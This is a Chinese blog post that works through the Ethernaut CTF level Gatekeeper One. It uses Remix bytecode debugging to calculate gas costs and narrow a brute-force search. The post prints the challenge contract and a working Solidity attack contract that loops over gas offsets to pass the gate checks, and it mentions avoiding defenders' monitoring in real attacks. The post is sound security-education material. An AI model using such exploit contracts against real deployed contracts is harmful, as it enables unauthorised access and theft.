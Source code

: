```yaml
---
layout: post
title:  巧用debug字节码分析进行gas分析优化攻击
categories: [Solidity,区块链安全,智能合约]
excerpt: 我利用了remix的debug进行gas_fee分析，优化了攻击合约，使得攻击时间缩短更加精确.....
---
```


## smeet it 

最近在ethernautCTF中，完成了Gatekeeper One这个关卡，进行一些思考，实验，获得一些debug上的一些心得。

为什么Debug？

![](..\images\debug_1.png)

 

我们知道通过第二道gate时，我们需要把gasfee为8191的倍数。如果直接爆破（如下）非常耗时，且繁琐。

```soli
for(uint256 i = 0 ; i < 8191 ; i++){
    (bool result,bytes memory data) = address(gkepOne).call{gas:
      300000 + i }
      (abi.encodeWithSignature("enter(bytes8)",key));
      if(result){
        break;
      }
}
```



由于gaslimit的限制，你可能根本运行不到足够的次数就因为gasfee不足而失败。那么只可以把8191次进行拆分，分多比交易进行，非常耗时。如果在实战中，防御者可能会因为你频繁的失败交易而产生监控和怀疑，所以考虑分析gas_fee的具体损失，优化这个攻击代码。

# Gas

![](..\images\debug_2.png)

以太坊的EVM最终将代码转换为机器码，我们用汇编代码查看每一个step具体的gas消耗。你可以在[黄皮书](https://ethereum.github.io/yellowpaper/paper.pdf)查看这些信息。

## Let's do it



### <font color=red >思路分析：</font>

**<font color=red >如果我们知道大概的一个gas耗费情况值，是不是可以定义一个较小的区间，而不是0~8191这样的区间。  具体如下：</font>**

```sol
for(uint256 i = 0 ; i < x ; i++){
    (bool result,bytes memory data) = address(gkepOne).call{gas:
         x + y + 8191*3 }  //这里可以*3  *4，但要保证gasfee足够 
      (abi.encodeWithSignature("enter(bytes8)",key));
     if(result){
        break;
     }
}
```



**<font color=red >x+y包含gate2之前所有的gasfee。</font>**

## debug分析：

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract GatekeeperOne {
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifer gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

我先跑一遍Gatekeeper One基础代码，发送了一个 enter 的交易。

先上结论，debug时候，这个交易首先会因为用户调用消耗一部分gas。 剩余的gas才是进入到合约中的初始gas，之后init一下合约，然后init函数，然后根据顺序先到gateOne验证，然后再到gateTwo，最后到gateThree。

这几个步骤都是花费gas。



![](..\images\debug_3.png)

![](..\images\debug_4.png)

上述两个就是init 合约 和 init 函数时候消耗的gas。下列是所有操作的具体gas（分析到gate2 因为我们之需要获得gate2之前的gas消耗情况）

```soli
call 合约    21288
init 合约    97
init 函数    60
gateOne     87 //这里是我跑Attack合约时候获得的，可以看到图中，我修改了gateOne，目的是查看gate2的
gatetwo(部分)     7 //gatetwo的取值的根据下面图中的汇编代码计算的，我们只需要EVM存储在内存时，之前的gas
```

![](..\images\debug_5.png)

此时在执行gatetwo，0202这个操作把gas存储在了stack中，所以到这里就是我们分析gas的终点，之后会用这个gas进行8191的取余操作。而在gatetwo中这个0202操作之前的gas仅仅只有7.

因为这是直接调用合约，如果满足gate1要求下，必须用合约远程call调用实现（call 可以定义gas）。

```sol
  function call() public {
      (bool result,bytes memory data) = address(gkepOne).call{gas:300000}
      (abi.encodeWithSignature("enter(bytes8)",0x1234567812345678));
    }
```

调用后，我发现call合约这个操作消耗的gas是计算在调用者合约中的。也就是说上面call合约这个操作我们不需要计算在gas消耗情况中，而且在这次调用中，我也知道了gate1 的gas消耗是 87.

![](..\images\debug_6.png)

那么我们计算的gasfee = 97 + 60 + 87 + 7 = 251，黄皮书中提到 由于solidity 版本不同，环境等原因，这个耗费随着版本更新是有差别的。（但这个值应该都不会有很大出入，所以我们依然可以定义一个域用来完成这次攻击）

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./GatekeeperOne.sol";
contract GateAttack {
    GatekeeperOne public gkepOne;
    uint256 public flag ;
    bytes8 txo16 = 0xcb342D8a64d57395;
    bytes8 key = txo16 & 0xffffffff0000ffff;
  constructor(address _gkepOne) public {
     gkepOne = GatekeeperOne(_gkepOne);
  }
  function letmein() public {
    
      for(uint256 i = 0 ; i < 22 ; i++){
          (bool result,bytes memory data) = address(gkepOne).call{gas:
            i + 240 + 8191*3 }  //251 = 240 + 11=>  2*11=22   (240 ~262)
            (abi.encodeWithSignature("enter(bytes8)",key));
            if(result){
              flag = i;
              break;
            }
      }
  }
}
```

这里我相信这个数值应该不会有太大出入，所以我进行了一次攻击，结果成功了。而它返回的数值是256，与我计算的251仅差5。

## 总结

这次攻击的目的除了从hacker角度考虑，更多的是想深入EVM内部，这对区块链安全从业者是至关重要的，同时再一次体现Debug的重要性，很多时候从底层出发，漏洞显而易见。